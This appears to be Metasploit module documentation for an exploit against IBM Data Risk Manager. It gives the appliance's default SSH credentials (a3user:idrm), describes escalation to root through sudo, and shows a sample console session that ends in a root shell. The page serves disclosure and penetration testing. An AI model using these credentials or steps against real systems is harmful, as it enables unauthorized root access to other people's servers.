 ## Vulnerable Application

This module abuses a known default password in IBM Data Risk Manager. The 'a3user' has the default password 'idrm' and allows an attacker to log in to the virtual appliance via SSH.
This can be escalated to full root access, as 'a3user' has `sudo` access with the default password.
At the time of disclosure, this is a 0day. Versions <= 2.0.3 are confirmed to be affected, and the latest 2.0.6 is most likely affected too.

### Vulnerability information
For more information about the vulnerability, check the advisory at:
https://github.com/pedrib/PoC/blob/master/advisories/IBM/ibm\_drm/ibm\_drm\_rce.md

### Setup

The application is available to download as a Linux virtual appliance from IBM's website. You need to have a valid IBM contract to be able to do so.

## Verification Steps

Module defaults work very well, you should just need to set `RHOSTS`!

## Scenarios

A successful exploit will look like this:

```
msf5 exploit(linux/ssh/ibm_drm_a3user) > run
[*] 10.22.22.212:22 - Attempting to login to the IBM Data Risk Manager appliance...
[+] 10.22.22.212:22 - Login Successful (a3user:idrm)
[*] Found shell.
[*] Command shell session 5 opened (10.22.22.1:45489 -> 10.22.22.212:22) at 2020-04-22 12:10:13 +0700
[*] 10.22.22.212:22 - Escalating privileges to root, please wait a few seconds...
[+] 10.22.22.212:22 - Done, enjoy your root shell!
uname -a
Linux idrm-server.ibm.com 3.10.0-862.3.2.el7.x86_64 #1 SMP Tue May 15 18:22:15 EDT 2018 x86_64 x86_64 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```

